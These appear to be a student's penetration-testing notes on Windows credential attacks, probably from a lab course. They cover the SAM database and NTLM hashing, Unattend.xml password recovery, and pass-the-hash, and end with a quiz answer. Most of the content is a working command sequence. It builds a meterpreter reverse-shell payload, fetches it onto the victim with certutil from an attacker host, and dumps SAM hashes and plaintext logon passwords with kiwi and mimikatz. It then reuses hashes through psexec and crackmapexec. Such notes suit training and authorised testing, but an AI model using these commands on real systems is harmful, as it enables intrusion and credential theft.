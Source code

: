 Windows has disabled LM and continued with NTLM hashing from Windows Vista onwards. 

<h2>SAM Database</h2>
	Security Account Manager -- (LM - LanMan)
-> cannot be copied when windows is running. Windows NT kernal keeps it locked.
-> Attacks use in-Memory techniques to dump SAM hashes from the LSASS process.
-> Modern Windows SAM database encrypted with syskey.

![[LM_working.png]]

![[NTLM_working.png]]

<h2>Unattended Windows Setup </h2>

C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Autounattend.xml
Setup Config files are encrypted in base 64
`In attacker machine`
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.49.2 LPORT=5000 -f exe > payload.exe
python3 -m http.server 80
Ctrl + C
service postgresql start && msfconsole
use multi/handler
set PAYLOAD /windows/x64/meterpreter/reverse_tcp
set LPORT 5000
set LHOST 10.10.49.2
```

`in windows(victim) to check privileges`
```
whoami /priv
certutil -urlcache -f http://attackIP.com/payload.exe payload.exe
```

`ON execution of payload in victim machine the metasploit in attacker machine will capture the shell.`
in attacker machine(meterpreter)
```
search -f unattend.xml
cd C:\\
cd Desktop
cd Panther
dir
download unattend.xml
```

`cat unattend.xml you will find <AutoLogon> </AutoLogon> you will find the value of password which is encoded in base64.`

```
base64 -d pasword.txt
```

<h2> Lab </h2>
**PowerSploit**: PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment.

**PowerUp.ps1:** PowerUp aims to be a clearing house of common Windows privilege escalation vectors that rely on misconfigurations.

Source: https://github.com/PowerShellMafia/PowerSploit

<h2> Mimikatz </h2>
 _> Kiwi is an inbuilt extension of meterpreter  than can be used instead of mimikatz_

	we need NT AUTHORITY/SYSTEM to run kiwi . ? is to view all the command of kiwi in meterpreter.
	meterpreter>
```
pgrep lsass
migrate <pid>
getuid
load kiwi
? 
creds_all
lsa_dump_sam // to Syskey and SAMkey
lsa_dump_secrets // could dump plain passwords
----------------------
upload /home/kali/Desktop/mimikatz.exe
shell
.\mimikatz.exe
privilege::debug \\ Privilege '20' ok , then good sign
lsadumb::sam \\Syskey and SAMkey, RID
lsadumb::secrets
sekurlsa::logonpasswords\\logon passwords with clear passwords 
```

<h2>Pass-the-Hash</h2>
```
getuid \\AUTHORITY/SYSTEM
load kiwi
lsa_dump_sam \\ copy Administrator NTLM hash or any
hashdump
Ctrl + Z
use exploit/windows/smb/psexec
set RHOSTS __
set LPORT __
set SMBUser Administrator
set SMBPass <AdministratorNTLMhashiwthLM>
set target Command(choose from options)
run

```

```
	crackmapexec smb VictimIP -u Administrator -H <NTLMhash> -x "whoami"
```

	_>Which one of the following tools can be used to perform a Pass-The-Hash attack?_
	ANSWER: crackmapexec , evil-winrm
